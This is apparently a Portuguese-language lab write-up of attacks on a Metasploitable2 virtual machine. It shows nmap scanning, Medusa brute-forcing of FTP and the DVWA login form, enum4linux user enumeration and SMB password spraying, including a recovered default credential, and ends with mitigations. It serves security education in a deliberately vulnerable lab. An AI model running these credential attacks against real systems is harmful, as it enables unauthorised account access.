


# Realizando Ataques

Seguindo a dinâmica proposta no início deste repositório, o primeiro passo é coletar informações a respeito do nosso alvo: a VM contendo o Metasploitable2. Essa coleta pode ser feita de diversas formas, dependendo do objetivo do atacante — desde analisar o tráfego de rede até descobrir as portas abertas na máquina-alvo.

Como o desafio pede o uso da ferramenta Medusa, cujo principal objetivo é realizar ataques de força bruta, daremos mais atenção aos ataques direcionados às portas de serviço (FTP, SSH, HTTP, etc.).

> ⚠️ **Aviso**: os procedimentos abaixo devem ser executados exclusivamente em ambiente de laboratório controlado (como o Metasploitable2), para fins educacionais. Realizar esses ataques contra sistemas sem autorização explícita é ilegal.

## Varredura inicial

Antes de partir direto para o Medusa, é necessário ter um panorama geral do alvo. Como o objetivo é analisar as portas de serviço, usaremos o comando `nmap` no terminal.

Como o `nmap` requer um alvo ou intervalo de alvos para escanear, e como as duas VMs estão na mesma rede, usamos primeiro:

```bash
ifconfig
```

No terminal, encontramos nosso endereço IP e, consequentemente, a rede em que o alvo está. Assim, podemos usar:

```bash
nmap -v -sn [IP DA REDE]/[PREFIXO]
```


Para verificar quais hosts estão online na rede.

Com os hosts descobertos, usamos:

```bash
nmap -v -sV [IP DO ALVO]/[PREFIXO]
```


Para descobrir mais informações sobre as portas de serviço. Para sermos mais pontuais, vamos verificar portas específicas: `21, 22, 80, 139, 445`. O comando fica:

```bash
nmap -v -sV -p 21,22,80,139,445 [IP DO ALVO]/[PREFIXO]
```

## FTP

Com as portas de serviço mapeadas, vamos começar com um ataque ao serviço FTP.

Para isso, usaremos o Medusa para descobrir o usuário e a senha de acesso. Em vez de testar uma combinação por vez, criamos uma lista com todos os usuários e outra com todas as senhas a serem testadas:

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > passwords.txt
```

Em seguida, executamos:

```bash
medusa -h [IP DO ALVO]/[PREFIXO] -U [caminho do arquivo de usuários] -P [caminho do arquivo de senhas] -M ftp
```

O Medusa retornará todas as tentativas com as combinações possíveis de usuário e senha. Caso alguma seja bem-sucedida, aparecerá `[SUCCESS]`, e poderemos usar essas credenciais para acessar o serviço.

## DVWA

Para praticar um ataque de envio de formulário web, acessamos pelo navegador `[IP DO ALVO]/dvwa/login.php`.

Isso exibe uma tela com um formulário de login básico. Abrindo as ferramentas de desenvolvedor (botão direito → "Inspecionar") e acessando a aba "Network", conseguimos ver todas as requisições feitas pelo site. Ao inserir um usuário e senha incorretos, o site retorna a mensagem "Login failed" — usaremos esse texto como critério para o Medusa identificar se o login funcionou ou não.

Reaproveitando as wordlists criadas para o ataque FTP:

```bash
medusa -h [IP DO ALVO] -U [caminho do arquivo de usuários] -P [caminho do arquivo de senhas] -M http \
  -m PAGE:'/dvwa/login.php' \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m 'FAIL=Login failed'
```


Com isso, descobrimos o usuário e a senha corretos ao vermos a saída com a flag `SUCCESS`.

## SMB

Com o comando:

```bash
enum4linux -a [IP DO ALVO] | tee enum4_output.txt | grep -oP 'user:\[\K[^]]+' > enum4_users.txt
```





realizamos uma enumeração completa do host-alvo (via RID cycling), salvando o output bruto em `enum4_output.txt` para análise posterior e, ao mesmo tempo, extraindo apenas os nomes de usuário encontrados para `enum4_users.txt`.

### Password spraying

Diferente do brute force usado no FTP e no DVWA, aqui aplicamos **password spraying**: em vez de testar muitas senhas contra um único usuário (o que gera bloqueio de conta em ambientes com política de lockout), testamos poucas senhas — geralmente 1 ou 2, como `msfadmin` e outras senhas padrão comuns — contra a lista real de usuários obtida na enumeração. Isso simula um cenário mais realista de ataque, que tenta evitar detecção por tentativas repetidas no mesmo usuário.

O arquivo `senhas_spray.txt` usado aqui contém **4** senhas — é esse tamanho reduzido que caracteriza o ataque como spraying, e não brute force disfarçado.

```bash
medusa -h [IP DO ALVO] -U enum4_users.txt -P senhas_spray.txt -M smbnt | grep FOUND
```

O filtro `grep FOUND` isola as linhas `ACCOUNT FOUND`, que indicam credenciais válidas encontradas.

**Resultado obtido:**
```
2026-10-31 15:42:11 ACCOUNT FOUND: [smbnt] Host: [IP DO ALVO] User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
```

## Mitigação

- Autenticação multifator (MFA)
- Senhas fortes, com expiração periódica
- Monitoramento contínuo de acessos
- Bloqueio de IPs após tentativas repetidas
- Segmentação de rede
- Auditorias de segurança regulares
